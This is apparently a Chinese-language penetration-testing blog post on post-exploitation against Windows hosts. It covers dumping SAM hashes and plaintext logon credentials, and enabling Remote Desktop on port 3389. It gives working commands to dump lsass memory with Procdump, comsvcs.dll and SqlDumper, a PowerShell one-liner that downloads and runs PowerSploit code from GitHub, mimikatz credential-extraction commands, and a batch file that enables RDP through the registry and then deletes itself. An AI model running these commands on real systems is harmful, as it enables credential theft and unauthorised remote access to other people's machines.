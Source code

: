 ```yaml
---
draft: false
date: 2016-08-08 08:28:27
title: 导出 Windows 主机密码与开启 3389
description: 
categories:
  - Pentest
tags:
  - intranet
---
```


### 0x00 导出主机密码hash
* 关于Windows的hash
    * 早期IBM设计的LM Hash算法存在弱点，微软在保持向后兼容性的同时提出了自己的挑战响应机制，即NTLM Hash
    * Windows hash由LM HASH和NT HASH两部分组成，形式为：用户名称:RID:LM-HASH值:NT-HASH值
    * 存储Windows hash的sam文件位置为：C:\windows\system32\config\SAM

* 导出hash条件
    * administrator以上权限

* 导出hash工具
    * wce
    * gethash
    * hashdump
    * SAMInside

* 上传工具得到hash
![查看是否为管理员以上权限](/img/post/privilge_escalation_win_view_whoami.png)
![上传wce](/img/post/privilge_escalation_win_upload_wce.png)
![得到hash](/img/post/privilge_escalation_win_get_hash.png)

* 在线网站解密hash
    * LM Hash和NT Hash得到一个就可以解密，不过两个都得到的话解密的成功率会更高
    * 可以在[http://www.objectif-securite.ch/ophcrack.php](http://www.objectif-securite.ch/ophcrack.php?_blank)解密
    ![解出密码](/img/post/privilge_escalation_win_get_pwd.png)

### 0x01 导出主机密码
* 条件
    * administrator以上权限
    * 当前管理员没有注销登陆(可以通过query user命令看出)

* 工具
    * mimikatz
    * getpass

* 上传工具得到密码
![查看是否为管理员以上权限](/img/post/privilge_escalation_win_view_whoami.png)
![查看管理员是否注销登陆](/img/post/privilge_escalation_win_query_user.png)
![上传getpass](/img/post/privilge_escalation_win_upload_getpass.png)
![得到密码1](/img/post/privilge_escalation_win_getpass1.png)
![得到密码2](/img/post/privilge_escalation_win_getpass2.png)

* 导出NTLM Hash本地得到密码  
    若 mimikatz 和 getpass 这类软件被杀的话可以先用Procdump导出lsass.dmp，然后本地用mimikatz解密
    * 导出文件 hash 文件  
        * 上传 Procdump.exe 导出

        > ```
        Procdump.exe -accepteula -ma lsass.exe lsass.dmp
        ```

        * 或者执行 PowerShell 导出

        > ```
        powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1'); "Get-Process lsass | Out-Minidump"

        或者
        tasklist /svc |findstr lsass.exe #查看 lsass.exe 的 pid
        powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump <pid> C:\lsass.dmp full"
        ```

        * 或者用 SqlDumper.exe 导出

        > ```
        tasklist /svc |findstr lsass.exe #查看 lsass.exe 的 pid
        "C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x01100
        ```

    * 下载导出的dmp文件后用本地mimikatz解密  
        先输入：```mimikatz.exe "sekurlsa::minidump lsass.dmp"```  
        后输入：sekurlsa::logonpasswords

### 0x02 开启3389
* 直接使用注册表
![新建开3389的注册表](/img/post/privilge_escalation_win_new_file_3389_reg.png)
![开3389端口](/img/post/privilge_escalation_win_open_3389.png)
![成功开启3389端口](/img/post/privilge_escalation_win_open_3389_success.png)

* 写一个批处理也行
```
# 3389.bat内容如下：
echo Windows Registry Editor Version 5.00>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg 
echo "fDenyTSConnections"=dword:00000000>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
regedit /s 3389.reg 
del 3389.reg
del 3389.bat
```
![新建开3389的注册表](/img/post/privilge_escalation_win_new_file_3389_bat.png)


<br>
#### Reference(侵删)：
[https://www.cnblogs.com/hiccup/p/4380298.html](https://www.cnblogs.com/hiccup/p/4380298.html?_blank)